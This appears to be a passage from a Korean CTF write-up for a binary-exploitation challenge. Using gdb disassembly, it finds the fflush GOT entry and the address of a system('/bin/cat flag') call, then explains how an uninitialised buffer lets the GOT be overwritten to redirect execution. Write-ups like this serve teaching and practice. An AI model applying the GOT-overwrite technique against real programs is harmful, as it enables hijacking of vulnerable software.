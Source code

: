 ```c
system("/bin/cat flag");
```

-----

```
gdb-peda$ pdisas login
Dump of assembler code for function login:
  ----생략----
   0x0804858b <+39>:    mov    eax,ds:0x804a02c
   0x08048590 <+44>:    mov    DWORD PTR [esp],eax
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   ----생략----
End of assembler dump.
```

`fflush@plt` 주소는 `0x8048430` 이다.

```
gdb-peda$ x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
   0x8048436 <fflush@plt+6>:    push   0x8
   0x804843b <fflush@plt+11>:   jmp    0x8048410
```

`fflush@got`  주소는 `0x804a004` 이다.

-----

```c
system("/bin/cat flag");
```

그리고 system 함수로 flag를 출력하는 코드 영역 부분의 주소를 구해야 한다.

```
gdb-peda$ pdisas login
Dump of assembler code for function login:
   ----생략----
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   ----생략----
End of assembler dump.
```

system함수를 실행하기 위한 부분은 `0x080485e3` 주소이다.

-----

이제 준비는 끝났다.

name배열의 마지막 4byte에 `fflush@got`주소를 넣고 사용자로부터 passcode1의 입력을 받을 때, system코드 주소(`0x080485e3`)를 입력하면 된다.

> 0x080485e3 = 134514147

-----
